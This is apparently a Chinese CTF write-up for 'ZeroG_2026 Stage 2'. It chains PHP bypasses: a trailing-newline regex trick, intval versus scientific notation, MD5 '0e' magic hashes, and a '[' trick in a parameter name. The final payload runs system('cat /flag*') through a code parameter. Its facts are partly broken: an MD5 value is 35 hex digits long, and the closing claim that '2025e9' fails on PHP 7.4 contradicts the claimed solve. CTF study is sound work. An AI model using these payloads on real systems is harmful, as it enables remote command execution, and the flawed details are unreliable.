



---
date: 2026-10-28
slug: zerog2026-stage2
categories:
  - RCE
  - 弱类型
  - PHP 源码
---

# ZeroG_2026（Stage 2）

三层，一层比一层贴源码。



## 第一层：正则 + 严格不等

```php
if (isset($_GET['zero'])
    && preg_match('/^ZeroG 2026!$/', $_GET['zero'])
    && $_GET['zero'] !== 'ZeroG 2026!') {
```

审计代码第一层：正则里的 `^` 意味着从第一个字符就要匹配，`$` 意味着到这里就要终止，所以原字符串要是 `ZeroG 2026!`，但是后面又要 `!==`（严格不等）。

这里补充 PCRE 的 `$`：**它除了匹配字符串末尾，还可以匹配"末尾换行之前"**，所以在末尾加上 `\n` 也可以，这样就绕过了第一层。

```text
?zero=ZeroG%202026!%0A
```

## 第二层：intval 和算术运算用两套规则

```php
if (intval($_GET['xp']) < 2026 && intval($_GET['xp'] + 4) > 2030) {
```

这里用到了 `intval`，就系统去补充了一下相关知识：

| 行为 | 例子 |
|---|---|
| 截断小数点 | `intval(0.9) = 0` |
| 只取前导数字 | `intval("123abc") = 123` |
| **反过来不行** | `intval("abc123") = 0`（不是 123） |
| 带进制参数 `intval($a, $b)` | `$b = 0` 时看前缀：`0` 开头按 8 进制、`0x` 开头按 16 进制，否则按 10 进制 |

接着看到这里：**既要小于 2026，又要加 4 之后大于 2030。**

最开始想的是用字符串改小进制，但这里不行。所以想到用 `2025e9`：

```text
intval('2025e9')  = 2025            ← 遇到 e 就直接停了
'2025e9' + 4      = 2.025e12        ← 2025×10⁹，算术运算先算完，才交给 intval
```

**同一个字符串，被两套规则解释：`intval()` 只认前导整数，算术运算认科学计数法。**

```text
?zero=ZeroG%202026!%0A&xp=2025e9
```

## 第三层：弱等于模拟强等于 + 一个 `[` 的妙用

```php
if (isset($_POST['Welcome__ctf.2026']) && isset($_POST['mm'])) {
    $a = $_POST['Welcome__ctf.2026'];
    $b = $_POST['mm'];
    if ($a !== $b && md5($a) == md5($b)) {
```

**用 `==`（弱等于）去模拟 `!==`（强不等）：** 找一组 MD5 值都以 `0e` 开头的数据：

```text
QNKCDZO   → md5 = 0e830400451993494058024219903391
240610708 → md5 = 0e462097431906509019562562988736854
```

**两个 `0e...` 在 `==` 下都被当成 0 × 10ⁿ = 0，所以相等；但原字符串不同，`!==` 也成立。**

接着构造：

```text
Welcome__ctf.2026=QNKCDZO&mm=240610708&code=system('cat /flag*');
```

**当然没有这么简单 —— 因为 PHP 会把参数名里的 `.` 转换成 `_`，所以这个名字根本出不来。**

我也卡在这里很久。

### 最后发现的东西

PHP 7.4 的源码逻辑：循环转换 `.` 和空格，**但是遇到 `[` 会直接把它替换成 `\0`（字符串截断符），然后跳出循环**：



跳出循环之后，PHP 认为这是数组语法，会去寻找与之配对的 `]` —— **但是找不到！**

找不到之后，又会把刚刚的 `\0` 换回 `_`，恢复完整字符串：



**所以只要把其中一个 `_` 改成 `[`，就能让结果刚好等于原来的名字：**

```text
Welcome__ctf.2026   →  循环走完全程 → 点被转 → Welcome__ctf_2026   ✗
Welcome_[ctf.2026   →  在 [ 处 break → 点没被处理 → 恢复 [ 为 _ → Welcome__ctf.2026   ✓
```

**一个字符同时做了两件事：截断循环（让点逃过转换）+ 恢复之后补回那个下划线。**

最终 payload：

```text
Welcome_[ctf.2026=QNKCDZO&mm=240610708&code=system('cat /flag*');
```

拿到 flag。

### `cat /flag*` 和 `cat flag*` 的区别

**这里试了一下：`cat flag*` 抓不到，`cat /flag*` 才能抓到。**

**原因是**当前工作目录**。web 进程的 cwd 是网站目录（`/var/www/html` 之类），而 flag 文件在**根目录 `/`**：**

```text
cat flag*     ← 相对路径，在网站目录里找 → 找不到
cat /flag*    ← 绝对路径，从根目录找     → 命中
```

**同一类问题在上一道题里是反过来的：那次 `cat /index.php` 失败、`cat index.php` 成功，因为文件就在 cwd 里。**

**所以路径没有好坏，只有**对不对得上文件所在的位置**。**

## 一个版本细节

**`intval('2025e9')` 只在 **PHP 5** 上返回 2025。**

```
PHP 5:   intval('2025e9') = 2025            ← 遇到 e 就停
PHP 7.1: intval('2025e9') = 2025000000000   ← 也认科学计数法了
```

**我在本地 PHP 7.4 上实测确认过：`intval('2025e9')` 返回 `2025000000000`，第一个条件就直接不成立。**

**所以这一关只在 PHP 5 的老环境上成立 —— 换个环境，同一个 payload 就废了。**
